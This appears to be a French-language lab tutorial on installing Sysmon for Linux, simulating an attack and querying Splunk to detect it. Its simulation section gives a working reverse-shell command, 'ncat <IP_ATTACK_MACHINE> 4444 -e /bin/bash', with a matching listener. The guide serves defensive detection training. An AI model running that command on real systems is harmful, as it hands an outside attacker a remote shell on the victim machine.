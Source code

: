 # Surveillance et enquête sur l'exécution de processus suspects

- L’installation de Sysmon pour Linux avec une configuration XML avancée pour détecter plusieurs techniques MITRE ATT&CK.

- [Sysmon for Linux](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

#### Installation de Sysmon for Linux

```sh
wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb

sudo apt-get update
sudo apt-get install sysmonforlinux
```

## Configuration XML avancée

#### Créer un fichier de configuration

```sh
nano sysmon-config.xml
```

#### Puis coller le contenu XML suivant (extrait optimisé et indenté proprement) :

- [Base de configuration recommandée : MSTIC Sysmon Config](https://github.com/microsoft/MSTIC-Sysmon/blob/main/linux/configs/main.xml)

#### Lancer Sysmon avec la configuration

```sh
sysmon -i sysmon-config.xml
```

#### Vérifier que Sysmon fonctionne

```sh
sudo systemctl restart sysmon
sudo systemctl status sysmon
```

## Simuler une attaque - Reverse Shell avec ncat

#### Sur la machine d’attaque

```sh
apt install ncat net-tools -y
ncat -lnvp 4444
```

#### Sur la machine compromise (victime) :

```sh
apt install ncat net-tools -y
ncat <IP_ATTACK_MACHINE> 4444 -e /bin/bash
```

#### Vérification de la connexion :

```sh
lsof -i :4444
netstat -tulnp | grep 4444
```

## Analyse dans Splunk (Search & Reporting)

> `Requêtes dans Search & Reporting`

- Affiche tous les logs liés à Sysmon.

```sh
index="linux_os_logs" process=sysmon
```

- Filtre sur les événements identifiés comme techniques de type Command.

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command
```

- Recherche spécifique d’utilisation de ncat.

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command ncat
```
